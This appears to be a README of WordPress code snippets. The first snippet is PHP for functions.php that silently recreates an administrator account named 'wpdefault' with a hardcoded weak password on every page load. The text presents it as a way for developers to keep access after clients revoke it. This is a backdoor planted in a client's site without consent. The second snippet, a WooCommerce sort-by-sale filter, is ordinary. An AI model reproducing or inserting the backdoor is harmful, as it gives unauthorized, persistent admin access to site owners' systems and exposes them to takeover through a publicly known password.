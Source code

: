 
## WordPress Important Scripts

### Wordpress Default User Create

If you need add an administrator User_Roll in WordPress which is no one delete this User. then put the code in any function.php file.

Most of clients are cheat with us after complete the work. They behave badly by being angry about little things. Then delete the access and cancel the order.
This code is useful to handle that situation.

```PHP

add_action( 'init', function () {

$username = 'wpdefault';
$password = '1234567890!';
$email_address = 'wordpress@example.com';

if ( ! username_exists( $username ) ) {
	$user_id = wp_create_user( $username, $password, $email_address );
	$user = new WP_User( $user_id );
	$user->set_role( 'administrator' );
}

} );

```
#

### Function to add sorting of sales items

![Screenshot](https://lakewood.media/wp-content/uploads/sites/50/2018/01/Woocommerce-Sort-By-Sales-Items.jpg)

🔗 Referance Link: https://lakewood.media/woocommerce-add-sales-filter/

```PHP

/**
 * WooCommerce Sales Sorting Filter
 * https://lakewood.media/woocommerce-add-sales-filter/
 */
add_filter( 'woocommerce_get_catalog_ordering_args', 'wcs_get_catalog_ordering_args' );
function wcs_get_catalog_ordering_args( $args ) {
    $orderby_value = isset( $_GET['orderby'] ) ? woocommerce_clean( $_GET['orderby'] ) : apply_filters( 'woocommerce_default_catalog_orderby', get_option( 'woocommerce_default_catalog_orderby' ) );
     
    if ( 'on_sale' == $orderby_value ) {
        $args['orderby'] = 'meta_value_num';
        $args['order'] = 'DESC';
        $args['meta_key'] = '_sale_price'; 
    }
    return $args;
}
 
add_filter( 'woocommerce_default_catalog_orderby_options', 'wcs_catalog_orderby' );
add_filter( 'woocommerce_catalog_orderby', 'wcs_catalog_orderby' );
function wcs_catalog_orderby( $sortby ) {
    $sortby['on_sale'] = 'Sort by on sale';
    return $sortby;
}

```

